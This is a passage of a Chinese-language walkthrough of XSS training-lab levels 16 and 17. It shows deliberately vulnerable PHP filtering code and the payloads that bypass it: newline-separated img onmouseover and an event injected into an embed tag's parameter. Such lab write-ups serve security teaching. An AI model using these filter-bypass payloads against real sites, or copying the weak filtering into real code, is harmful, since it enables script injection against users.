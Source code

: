 ```
<?php 
ini_set("display_errors", 0);
$str = strtolower($_GET["keyword"]);
$str2=str_replace("script","&nbsp;",$str);
$str3=str_replace(" ","&nbsp;",$str2);
$str4=str_replace("/","&nbsp;",$str3);
$str5=str_replace("	","&nbsp;",$str4);
echo "<center>".$str5."</center>";
?>
```

小写，替换**script，空格，/**



测试过滤了什么

`<script " 'Oonn>`

```html
<center><&nbsp;&nbsp;"&nbsp;'oonn></center>
```

script和空格被替换为 `&nbsp;`大写变成小写。

用**回车替换空格来将它们分开**

回车：`%0a`， `%0d`

```html
<img%0asrc=xss%0donmouseover=alert('xss')>
```

## level17

http://192.168.31.193:8080/level17.php?arg01=a&arg02=b

```php+HTML
<body>
<h1 align=center>欢迎来到level17</h1>
<?php
ini_set("display_errors", 0);
echo "<embed src=xsf01.swf?".htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"])." width=100% heigth=100%>";
?>
<h2 align=center>成功后，<a href=level18.php?arg01=a&arg02=b>点我进入下一关</a></h2>
</body>
```

两个输出的值都被做了实体化转义，无法闭合标签

但是问题在于本身***embed标签***可以加入事件，

可以**在arg01,或者arg02中加入事件**去触发即可

空格：`%20`

`?arg01=1%20onmouseover=alert('xss')&arg02=b`
